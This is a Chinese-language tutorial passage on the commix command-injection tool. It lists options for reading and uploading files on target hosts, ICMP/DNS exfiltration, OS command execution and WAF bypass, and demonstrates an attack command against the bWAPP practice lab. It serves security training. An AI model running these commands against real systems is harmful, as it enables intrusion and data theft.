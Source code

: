 ```
    --privileges                检索系统用户权限。
    --ps-version                检索PowerShell的版本号。
文件访问:
    这些选项可用于访问目标主机上的文件。
    --file-read = FILE ..       从目标主机读取文件。
    --file-write = FIL ..       写入目标主机上的文件。
    --file-upload = FI ..       在目标主机上上传文件。
    --file-dest = FILE ..       写入和/或上传到的主机的绝对文件路径。
模块:
    这些选项可用于增加检测和/或注射能力。
    --icmp-exfil = IP_ ..'ICMP exfiltration'注入模块。  (例如'ip_src = 192.168.178.1，ip_dst = 192.168.178.3')。
    --dns-server = DNS ..“DNS exfiltration”注入模块。    (用于DNS筛选攻击的域名)。
    --shellshock“炮弹”注射模块。
注射:
    这些选项可用于指定要插入和输入的参数,提供定制注入有效负载。
    -p TEST_PARAMETER        可测试参数。
    --suffix = SUFFIX        注入有效负载后缀字符串。
    --prefix = PREFIX        注入有效负载前缀字符串。
    --technique = TECH       指定要使用的进样技术。
    --maxlen = MAXLEN        设置与时间相关的最大输出长度,注射技术(默认:10000字符)。
    --delay = DELAY          设置与时间相关的注入的自定义时间延迟术(默认:1秒)。
    --tmp-path = TMP_P ..    设置Web服务器的临时目录的绝对路径。
    --root-dir = SRV_R ..    设置Web服务器根目录的绝对路径。
    --alter-shell = AL ..    使用另一个os-shell(例如'Python')。
    --os-cmd = OS_CMD        执行单个操作系统命令。
    --os = OS                将后端操作系统强制为此值。
    --tamper = TAMPER        使用给定脚本篡改注射数据。
检测:
    这些选项可用于自定义检测阶段。
    --level = LEVEL          要执行的测试级别(1-3，默认值:1)。
    --skip-calc              在检测期间跳过数学计算
    --dependencies           检查第三方(非内核)依赖关系。
    --skip-waf               绕过启发式检测WAF/IPS/IDS保护。
```


### 演示

```
POST /bWAPP/commandi.php HTTP/1.1
Host: 192.168.1.103
Referer: http://192.168.1.103/bWAPP/commandi.php
Cookie: acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=mq78064h3p2b00n4toerk7ana1; security_level=0

target=www.nsa.gov&form=submit
```

#### commix注入

```
commix --url "http://192.168.1.103/bWAPP/commandi.php" --cookie="acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=mq78064h3p2b00n4toerk7ana1; security_level=0" --data="target=www.nsa.gov&form=submit"
```

